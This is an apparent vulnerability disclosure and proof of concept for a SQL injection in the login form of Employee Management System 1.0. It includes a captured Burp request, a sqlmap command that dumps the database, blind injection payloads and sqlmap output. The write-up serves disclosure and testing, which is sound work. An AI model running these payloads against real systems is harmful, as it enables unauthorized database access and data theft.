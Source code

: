 # Employee Managment System - SQL Injection - 1
+ **Exploit Title:** Employee Managment System - SQL Injection - 1
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/employee-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/4af079c9-ab82-4b2a-a133-be6989c7f70e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Employee Managment System 1.0 allows SQL Injection via the 'mailud' parameter at "http://localhost/370project/process/aprocess.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /370project/process/aprocess.php HTTP/1.1
Host: localhost
Content-Length: 42
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/370project/alogin.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid=selam&pwd=selam&login-submit=Login

```

+ Use sqlmap to exploit. In sqlmap, use 'mailuid' parameter to dump the database.
```
sqlmap -r r.txt -p mailuid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: mailuid (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: mailuid=selam' OR NOT 1748=1748-- pomf&pwd=selam&login-submit=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: mailuid=selam' AND (SELECT 5297 FROM (SELECT(SLEEP(5)))anmx)-- qNtS&pwd=selam&login-submit=Login
---
[05:00:01] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[05:00:01] [INFO] fetching current database
[05:00:01] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[05:00:01] [INFO] retrieved: 370project
current database: '370project'

```
+ current database: `370project`

![Ekran görüntüsü 2024-01-30 133200](https://github.com/BurakSevben/CVEs/assets/117217689/954994db-2c35-4697-a40c-537fb3230ab9)
